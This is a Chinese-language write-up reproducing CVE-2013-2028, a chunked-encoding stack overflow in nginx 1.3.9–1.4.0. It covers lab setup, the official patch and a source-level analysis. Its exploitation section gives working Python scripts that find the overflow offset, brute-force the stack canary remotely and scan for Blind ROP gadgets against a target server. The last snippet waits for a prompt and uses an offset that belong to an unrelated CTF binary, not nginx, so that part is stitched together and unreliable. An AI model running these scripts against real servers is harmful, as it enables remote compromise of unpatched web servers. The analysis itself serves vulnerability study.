








# CVE-2013-2028复现

## 测试环境

ubuntu 16.04

影响范围：

1.3.9 <= nginx <= 1.4.0

## 环境搭建

```shell
#下载
apt-get update -y
apt-get install -y libssl-dev gcc make wget tar
wget https://github.com/nginx/nginx/archive/release-1.4.0.tar.gz && tar xfv release-1.4.0.tar.gz
#解压下载文件 到解压目录底下 进行安装
With stack cookies:
./auto/configure --without-http_rewrite_module --without-http_gzip_module
make -j4
make install
#运行
/usr/local/nginx/sbin/nginx -g "daemon off;"
```

在浏览器输入localhost


```shell
ps aux | grep nginx
root       6316  0.0  0.0  24412  3272 pts/3    S+   00:18   0:00 nginx: master process /usr/local/nginx/sbin/nginx -g daemon off;
nobody     6317  0.0  0.0  24812  2468 pts/3    S+   00:18   0:00 nginx: worker process
root       6555  0.0  0.0  14224  1012 pts/17   S+   00:20   0:00 grep --color=auto nginx
```

## 漏洞复现

https://github.com/m4drat/CVE-2013-2028-Exploit



## 漏洞分析

Nginx 官方补丁http://nginx.org/download/patch.2013.chunked.txt

```c
--- src/http/ngx_http_parse.c
+++ src/http/ngx_http_parse.c
@@ -2209,6 +2209,10 @@ data:
 
     }
 
+    if (ctx->size < 0 || ctx->length < 0) {
+        goto invalid;
+    }
+
     return rc;
 
 done:
```

我们从补丁可以认识去看看一个漏洞的触发源。去看ngx_http_parse.c源码

```c
ngx_int_t
ngx_http_parse_chunked(ngx_http_request_t *r, ngx_buf_t *b,
ngx_http_chunked_t *ctx)
{

...
state = ctx->state;
...
rc = NGX_AGAIN;
...
switch (state) {

...
case sw_chunk_size:
if (ch >= '0' && ch <= '9') {

ctx->size = ctx->size * 16 + (ch - '0');
break;
}
c = (u_char) (ch | 0x20);
if (c >= 'a' && c <= 'f') {

ctx->size = ctx->size * 16 + (c - 'a' + 10);
break;
}
...
}
data:
switch (state) {
...
case sw_chunk_data:
ctx->length = ctx->size + 4 /* LF "0" LF LF */;
break;
...
    
+    if (ctx->size < 0 || ctx->length < 0) {    //补丁的位置<------------------------
+        goto invalid;
+    }
+

return rc;
	
done:

    ctx->state = 0;
    b->pos = pos + 1;

    return NGX_DONE;

invalid:

    return NGX_ERROR;
}
```

补丁是加在这个位置，包含当前位置的函数是`ngx_http_parse_chunked`

我们利用gdb在`ngx_http_parse_chunked`函数这下断点，进行栈回溯

```
ps aux | grep nginx
gdb -p <PID>
b ngx_http_parse_chunked
c
bt
```


接着我们去找源码进行分析

```
ngx_int_t
ngx_http_parse_chunked(ngx_http_request_t *r, ngx_buf_t *b,
ngx_http_chunked_t *ctx)
{

...
state = ctx->state;
...
rc = NGX_AGAIN;
...
switch (state) {

...
case sw_chunk_size:
if (ch >= '0' && ch <= '9') {

ctx->size = ctx->size * 16 + (ch - '0');
break;
}
c = (u_char) (ch | 0x20);
if (c >= 'a' && c <= 'f') {

ctx->size = ctx->size * 16 + (c - 'a' + 10);
break;
}
...
}
data:
switch (state) {

...
case sw_chunk_data:
ctx->length = ctx->size + 4 /* LF "0" LF LF */;
break;
...
return rc;
...
}
```

我们去看`ngx_http_request_body.c`中的`ngx_http_discard_request_body_filter`

```c
ngx_http_discard_request_body_filter(ngx_http_request_t *r, ngx_buf_t *b)
{
    size_t                    size;
    ngx_int_t                 rc;
    ngx_http_request_body_t  *rb;

    if (r->headers_in.chunked) {

        rb = r->request_body;

        if (rb == NULL) {

            rb = ngx_pcalloc(r->pool, sizeof(ngx_http_request_body_t));
            if (rb == NULL) {
                return NGX_HTTP_INTERNAL_SERVER_ERROR;
            }

            rb->chunked = ngx_pcalloc(r->pool, sizeof(ngx_http_chunked_t));
            if (rb->chunked == NULL) {
                return NGX_HTTP_INTERNAL_SERVER_ERROR;
            }

            r->request_body = rb;
        }

        for ( ;; ) {

            rc = ngx_http_parse_chunked(r, b, rb->chunked); //这<----------------

            if (rc == NGX_OK) {

                /* a chunk has been parsed successfully */

                size = b->last - b->pos;

                if ((off_t) size > rb->chunked->size) {		//这<----------------
                    b->pos += rb->chunked->size;
                    rb->chunked->size = 0;

                } else {
                    rb->chunked->size -= size;
                    b->pos = b->last;
                }

                continue;
            }

            if (rc == NGX_DONE) {

                /* a whole response has been parsed successfully */

                r->headers_in.content_length_n = 0;
                break;
            }

            if (rc == NGX_AGAIN) {

                /* set amount of data we want to see next time */

                r->headers_in.content_length_n = rb->chunked->length;//这<-------
                break;
            }

            /* invalid */

            ngx_log_error(NGX_LOG_ERR, r->connection->log, 0,
                          "client sent invalid chunked body");

            return NGX_HTTP_BAD_REQUEST;
        }

    } else {
        size = b->last - b->pos;

        if ((off_t) size > r->headers_in.content_length_n) {
            b->pos += r->headers_in.content_length_n;
            r->headers_in.content_length_n = 0;

        } else {
            b->pos = b->last;
            r->headers_in.content_length_n -= size;
        }
    }

    return NGX_OK;
}
```

仔细发现这里面循环有一些`rb->chunked->length`、`rb->chunked->size`的操作

再往上回溯便是`ngx_http_read_discarded_request_body`

```c
static ngx_int_t
ngx_http_read_discarded_request_body(ngx_http_request_t *r)
{
    size_t     size;
    ssize_t    n;
    ngx_int_t  rc;
    ngx_buf_t  b;
    u_char     buffer[NGX_HTTP_DISCARD_BUFFER_SIZE];		//这<----------------

    ngx_log_debug0(NGX_LOG_DEBUG_HTTP, r->connection->log, 0,
                   "http read discarded body");

    ngx_memzero(&b, sizeof(ngx_buf_t));

    b.temporary = 1;

    for ( ;; ) {
        if (r->headers_in.content_length_n == 0) {
            r->read_event_handler = ngx_http_block_reading;
            return NGX_OK;
        }

        if (!r->connection->read->ready) {
            return NGX_AGAIN;
        }

        size = (size_t) ngx_min(r->headers_in.content_length_n,
                                NGX_HTTP_DISCARD_BUFFER_SIZE); 	//这<----------------

        n = r->connection->recv(r->connection, buffer, size); 	//这<----------------

        if (n == NGX_ERROR) {
            r->connection->error = 1;
            return NGX_OK;
        }

        if (n == NGX_AGAIN) {
            return NGX_AGAIN;
        }

        if (n == 0) {
            return NGX_OK;
        }

        b.pos = buffer;
        b.last = buffer + n;

        rc = ngx_http_discard_request_body_filter(r, &b); 	//这<----------------

        if (rc != NGX_OK) {
            return rc;
        }
    }
}
```

这个函数存在一个`buffer`变量 大小为`#define NGX_HTTP_DISCARD_BUFFER_SIZE 4096`

然后使用ngx_min宏: `#define ngx_min(val1, val2) ((val1 > val2) ? (val2) : (val1))`，看`headers_in.content_length_n`的大小是多少，如果小于4096的话将会把它的值给size。

接下来就是使用recv接收数据，这里要注意`recv函数`，如果buffer比size小的话，接收过多数据时候会导致栈溢出问题。

这里使用了ngx_min做了处理，但是`headers_in.content_length_n`类型为off_t，也就是有符号的long型，如果他能够为负数，再通过将它转换为size_t类型，也就是无符号的unsigned int型，最终的数值会变得很大，可以利用这点造成栈溢出。



回到`ngx_http_discard_request_body_filter`上一个函数看`r->headers_in.chunked`条件中的`NGX_AGAIN`情况

```c
if (rc == NGX_AGAIN) {
    /* set amount of data we want to see next time */
    r->headers_in.content_length_n = rb->chunked->length;
    break;
}
```

如果NGX_AGAIN的话，`r->headers_in.content_length_n`的值将会被第二次的`rb->chunked->length`长度覆盖掉

我们启动攻击脚本调看看




当遇到HTTP请求体中的**块大小**，即`0xaaaaaaaaaaaaaab0`时，会将字符串解析为对应的**十六进制数字**，并保存在`ctx->size`中。注意，由于是有**符号**的，ctx的值是为**负数**的(0xaaaaaaaaaaaaaab0 = -0x5555555555555550)。之后`ctx->size`的值会赋值到`ctx->lenth`中最终返回。

此时rc的值为NGX_AGAIN



程序将执行 `r->headers_in.content_length_n = rb->chunked->length;`



可以看到当我们传入0xaaaaaaaaaaaaaab0的时候，便可以覆盖了`$rbp`，最终`nginx: worker process`崩溃重启



## 漏洞利用

开始我们的exp编写，看一眼保护机制


发现有金丝雀值保护，这里我们利用BRop(Blind ROP)进行绕过。

BRop就是不需要源代码、程序，并且绕过各种保护机制: NX、ASLR、PIE、Canary。

### BRop的使用条件：

Blind ROP是我们不知道目标环境的情况下使用的，也就是不能直接构造ROP gadget。

目标服务在崩溃后会重新运行。

Canary不会重置，没有ASLR。

### BRop利用

nginx符合这样的情况，因为通常情况下nginx是存在一个master和多个worker，worker挂掉后便会重新启动复活。因此我们需要做：

```
	1、通过一个已知的stack overflow的漏洞，并通过stack reading的方式绕过stack canary的防护，试出某个可用的return address；
	2、寻找stop gadget：一般情况下这会是一个在PLT中的blocking系统调用的地址（sleep等），在这一步中，攻击者也可以找到PLT的合法项；
	3、寻找BROP gadget：这一步之后攻击者就能够控制write系统调用的前两个参数了；
	4、通过signature的方式寻找到PLT上的strcmp项，然后通过控制字符串的长度来给%rdx赋值，这一步之后攻击者就能够控制write系统调用的第三个参数了；
	5、寻找PLT中的write项：这一步之后攻击者就能够将整个内存从远端dump到本地，用于寻找更多的gadgets；
	6、有了以上的信息之后，就可以创建一个shellcode来实施攻击了。
```

常见的栈布局如下:


#### 1、获取栈溢出长度

可以通过不断的去填充缓冲区，当它破坏canary的时候就会出现crash

```python
def get_stack_len(args):
    result = []
    for i in range(2000):
        ps = connect(args.remoteadress, args.remoteport)
        ps.send(base_payload + 'A' * (4096+i))
        try:
                ps.recv(1024)
                print("i = %s none"% str(i))
        except:
                print(i)
                ps.close()
                return i
```



CANARY_OFFSET = 4096 + 970 = 5066

#### 2、爆破canary值

当我们第一字节从00开始爆破，当爆破到正确Canary的字节的时候，就不会崩溃，这时候再对第二字节进行爆破，以此类推。爆破出正确的Canary。

```python
base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

CANARY_OFFSET = 5066

def ByteToHex(byteStr):
    return ''.join(["\\x%02x" % ord(x) for x in byteStr]).strip()

def find_canary(args):
    canary = ''
    for _ in range(0, 8):
        for byte in range(0, 256):
            ps = connect(args.remoteadress, args.remoteport)
            ps.send(base_payload + 'A' * CANARY_OFFSET + canary + chr(byte))
            try:
                ps.recv(1024)
                print('[+] canary[%s] = \'\\x%s\'\n' % (hex(len(canary)), hex(byte)[2:].rjust(2, '0')))
                ps.close()
                break
            except:
                sys.stdout.write('\033[A[-] Trying canary: "%s\\x%s"\n' % (ByteToHex(canary), hex(byte)[2:].rjust(2, '0')))
                sys.stdout.flush()
            ps.close()

        canary += chr(byte)

    ps.close()
    return canary
```



得到canary = "\x00\xa0\xbc\x9e\x68\x31\x90\x69"

#### 3、寻找gadget

利用stop gadget（也叫hang gadget）当执行这段代码的时候，不会造成crash，但程序会进入无限循环，挂起或者sleep的状态，这样使得攻击者能够一直保持连接状态，它是我们后面寻找BROP gadget的重要依据。

```python
from pwn import *
io = remote("127.0.0.1",80)

def log_in_file(addr):
    #f = open("gadgets.txt",'a')
    #f = open('res.txt','a')
    f = open('puts.txt','a')
    f.write("the addr:0x%x\n"%addr)
    f.close()

def find_stop_gadget(addr):
    io = remote("127.0.0.1",80)
    payload = "A"*72 + p64(addr)
    io.recvuntil("WelCome my friend,Do you know password?")
    io.sendline(payload)
    try:
        io.recvline()
        if(io.recv()!=None):
            log.info("alie! at 0x%x" %addr)
            log_in_file(addr)
            io.close()
    except EOFError as e:
            io.close()
            log.info("the connection is close at 0x%x" %addr)
start = 0x400000

while True:
    start +=1
    print "[*] Rand:{0}".format(start)
    find_stop_gadget(start)
    if start >0x40300000:
        break
```

